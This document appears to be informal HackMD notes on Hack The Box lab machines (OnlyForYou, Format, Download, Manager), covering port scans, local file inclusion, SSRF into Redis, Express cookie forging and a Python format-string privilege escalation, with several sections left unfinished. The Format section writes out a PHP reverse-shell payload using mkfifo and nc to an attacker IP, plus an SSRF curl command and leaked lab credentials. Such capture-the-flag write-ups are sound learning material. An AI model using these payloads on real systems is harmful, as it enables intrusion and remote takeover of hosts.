 ## Agile
### Reco
### Weaponisation
### Exploitation
### User flag
### Root flag
![](https://hackmd.io/_uploads/H1N6hTich.png)

## OnlyForYou
> To obtain access we must read various files on the web using an LFI to find a vulnerability in the form. Using the form we can run CERs. To move to a user we must perform a Cypher Injection on an internal website to get the password. And for the escalation of privileges we must modify a file, create a tar.gz and upload it to the Gogs web intera and then download the file using pip3 and thus be able to modify the bash to SUID permissions.
### Reco
1. nmap 10.10.11.210 -sVC
2. dir busting
    - there is a subdomain
    ![](https://hackmd.io/_uploads/rytoaqich.png)
    - add it also to the /etc/hosts

### Weaponisation
1. beta subdomain
    - allows us to download source code
        ![](https://hackmd.io/_uploads/BklH0qoqh.png)
        - When analyzing it we realize that in the / download path if in the parameter image start with 2 points then launch a message that says Hacking detected and makes us a redirect to / list.
            ![](https://hackmd.io/_uploads/HkT9C5iq3.png)
### Exploitation
1. BurpSuite - LFI
    - 
### User flag
### Root flag

## Format
### Reco
1. nmap: `nmap -sVC 10.10.11.213`
    - 22 SSH
    - 80,3000 HTTP
2. add microblog.htb:3000 to /etc/hosts
3. FUZZING - subdomain enumeration
    - app, sunny
        - add these both to /etc/hosts also
4. Website
    - "Contribute here!" in footer -> source code of app.microblog.htb
### Weaponisation
1. LFI
    - we can use ID parameter for LFI
        - create a blog -> edit blog
            - capture req to add the H1/text
                - we can edit the ID paramater for LFI
                    ![](https://hackmd.io/_uploads/SkOVqn0q2.png)
### Exploitation
1. PRO account
    - dashboard page and source code -> something about PRO 
    - assign pro to our session using SSRF
> curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:testy%20pro%20true%20a/b

- insert the username of registration
2. Uploading reverse shell
    - use this to get RS on target machine + change your blog name
> id=/var/www/microblog/<your_blog_name>/uploads/rev.php&header=<%3fphp+echo+shell_exec("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.14.30+443+>/tmp/f")%3b%3f>
![](https://hackmd.io/_uploads/rJj-j309h.png)

- after visiting the /uploads/rev.php we will get our RS
### User flag
1. Connect to Redis-cli
    - socks config file
        - redis-cli -s /var/run/redis/redis.sock
        - keys *
            ![](https://hackmd.io/_uploads/SyLwo205h.png)
        - hgetall cooper.dooper
            - `cooper:zooperdoopercooper`
2. SSH connect to obtain user flag
### Root flag
1. trying `sudo -l`
    - we can run /usr/bin/licence
        - this file is also readable
            - [Python format function vuln](https://web.archive.org/web/20230624063634/https://podalirius.net/en/articles/python-format-string-vulnerabilities/)
2. Vuln
    - register a user using redis-cli and use the vuln in username to print all variables
        - `HSET test2 username test1 password test first-name` 
        - `{license.__init__.__globals__} last-name test pro false`
            ![](https://hackmd.io/_uploads/S1LOThRq3.png)
    - run /usr/bin/licence as sudo to provision the licence of our "test2" user
        - `sudo /usr/bin/license -p test2`
            ![](https://hackmd.io/_uploads/Hy_na3Rc2.png)
            - we obtained SSH credentials for root
                - `root:unCR4ckaBL3Pa$$w0rd`
3. SSH login as a root to obtain root flag

## Download
### Reco
- `sudo nmap -sVC <IP>`
    - ![](https://hackmd.io/_uploads/SkZBpNRo3.png)
    - 22 SSH
    - 80 HTTP
        - redirect -> add download.htb to /etc/hosts
- website analysis
    - website for uploading && downloading large files
    - upload subsite
        - download.htb/files/upload
    - login && register subsite
        - downlaod.htb/auth/login
        - download.htb/auth/register
### Weaponisation
1. while trying to upload a file with BurpSuite, I found out tha it is an **Express** based website
        - upload the file -> we obtain unique UID and link
            ![](https://hackmd.io/_uploads/H1ZfZSRo3.png)
            - click "Copy Link" button -> small popup window followed by an alert
                - it is a file called copy.js (contains the code for the function, nothing vulnerable)
            - there is also a JWT token withing the download + a .sig cooke
                ![](https://hackmd.io/_uploads/HyJBZrAj3.png)
                - decoded token: 
                `{"flashes":{"info":[],"error":[],"success":[]}}`
    - Download feature
        - redirects us to the link:
            - `http://download.htb/files/download/0623ba64-6749-48a4-9a08-a58658b74852`
                - this could be used to download other files...
                - uploads are probably stored within a /downloads or /uploads folder on the machine
                    - basic LFI with some Express file names...
                        - `..%2fapp.js` worked...
                       ![](https://hackmd.io/_uploads/HJMYk8Cjn.png)
                             - there is package.json as part of the folders too:
 `{
  "name": "download.htb",
  "version": "1.0.0",
  "description": "",
  "main": "app.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "dev": "nodemon --exec ts-node --files ./src/app.ts",
    "build": "tsc"
  },
  "keywords": [],
  "author": "wesley",
  "license": "ISC",
  "dependencies": {
    "@prisma/client": "^4.13.0",
    "cookie-parser": "^1.4.6",
    "cookie-session": "^2.0.0",
    "express": "^4.18.2",
    "express-fileupload": "^1.4.0",
    "zod": "^3.21.4"
  },
  "devDependencies": {
    "@types/cookie-parser": "^1.4.3",
    "@types/cookie-session": "^2.0.44",
    "@types/express": "^4.17.17",
    "@types/express-fileupload": "^1.4.1",
    "@types/node": "^18.15.12",
    "@types/nunjucks": "^3.2.2",
    "nodemon": "^2.0.22",
    "nunjucks": "^3.2.4",
    "prisma": "^4.13.0",
    "ts-node": "^10.9.1",
    "typescript": "^5.0.4"
  }
}`
                - AUTHOR: **WESLEY**
2. enumerating LOGIN 
    - create a test user && login -> download_session cookie has some more information (decoded): 
    `{"flashes":{"info":[],"error":[],"success":[]},"user":{"id":16,"username":"test123"}}`
    - .sig token is also different
        - signature of a cookie, changes by the extension
3. VULN for COOKIE on websites running Express
    - [cookie-monster](https://github.com/DigitalInterruption/cookie-monster)
    - [nodeJS Express](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nodejs-express)
### Exploitation
1. Blind injection - Cookie monster Brute Force
Lets sum up all facts we obtained:
    - **.sig** ... key for the token structure, needed fot Cookie Monster
    - User is **wesley**, hashes are UNsalted and used directly for auth -> brute forcing could be a way
    - there is **SQL query** that is somehow injectable
    - **cookies are not validated** any way -> it checks whether a `true` condition is returned from `findFirst` from the `prisma` API module...Blind Injection by redirect could be possibility

## Manager
### Reco
nmap -sVC 10.10.11.236 -Pn
    - 53 DOMAIN (Simple DNS Plus)
    - 80 HTTP (MS IIS httpd 10.0)
    - 88 KERBEROS-SEC
    - 135 MSRPC
    - 139 NETBIOS-SSN
    - 389 LDAP
        - ssl-cert: dc01.manager.htb
    - 445 MS-DS?
    - 464 KPASSWD5?
    - 593 NCACN_HTTP (RMS win RPC over HTTP 1.0)
    - 636 SSL/LDAP
        - DNS: dc01.manager.htb
    - 1433 MS-SQL-S 
        - MSSQL Server 2019
    - 3269 LDAP
    - 3269 SSL/LDAP
    - active SMB2
        - sec-mode: 311 (message signing enabled and required)

